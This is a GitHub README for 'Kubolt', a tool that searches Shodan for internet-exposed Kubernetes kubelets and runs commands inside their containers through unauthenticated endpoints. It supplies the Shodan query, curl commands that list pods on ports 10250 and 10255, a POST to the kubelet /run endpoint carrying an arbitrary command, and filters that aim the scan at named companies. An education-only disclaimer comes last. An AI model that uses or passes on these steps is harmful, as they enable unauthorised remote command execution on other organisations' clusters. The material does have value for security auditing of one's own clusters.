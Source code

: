 # Wat?
**Kubolt** is simple utility to scan public unauthinticated kubernetes clusters and run commands inside containers

# Why?
If the cluster exposed port 10250 to internet it's possible to use getrun function from [kubelet](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) and run commands inside containers:
```go
// getRun handles requests to run a command inside a container.
func (s *Server) getRun(request *restful.Request, response *restful.Response) {
	params := getExecRequestParams(request)
	pod, ok := s.host.GetPodByName(params.podNamespace, params.podName)
	if !ok {
		response.WriteError(http.StatusNotFound, fmt.Errorf("pod does not exist"))
		return
	}
```

# How?
Okay, let's ask our friend Shodan :trollface:
The basic query is 
>ssl:true port:10250 404 

**Kubelet** use port 10250 with SSL by default, 404 is the HTTP response without URL path. 

**Kubolt** ask Shodan by API for list of IP addresses and keep them for other OSINT actions :grin:

First, let's ask Kubelet for running pods and filter hosts where response doesn't contain `Unauthorized` and contain `container` so we could run command inside it. 
```bash
curl -k https://IP-from-Shodan:10250/runningpods/ 
```
Anyway, if you find the host without any running pods at the time, keep it for next time when pods might be started :grin: 

You could list all the available pods from these requests:
```bash
curl -k https://IP-from-Shodan:10250/pods/
#or
curl http://IP-from-Shodan:10255/pods/ 
```

Next **kubolt** parse response and generate a new request as below:
```bash
curl -XPOST -k https://IP-from-Shodan:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=<command-to-run>" 
```
You could target companies more accurate using Shodan filters like this:
- asn
- org
- country
- net


To do it use `--query` param like this:
```python3
python kubolt.py --query "asn:123123 org:'ACME Corporation'"
#or
python kubolt.py --query "org:'ACME Corporation' country:UK"
```

# Shodan 
**Kubolt** use Shodan API and [Query Credits](https://help.shodan.io/the-basics/credit-types-explained) accordingly, if you run the tool without query filters then you probably will fire all your credits `¯\_(ツ)_/¯`  

# Demo
![demo](/github-scale.gif)

# Important
The Tool provided by the author should only be used for education purposes. The author can not be held responsible for the misuse of the Tool. The author is not responsible for any direct or indirect damage caused due to the usage of the Tool.
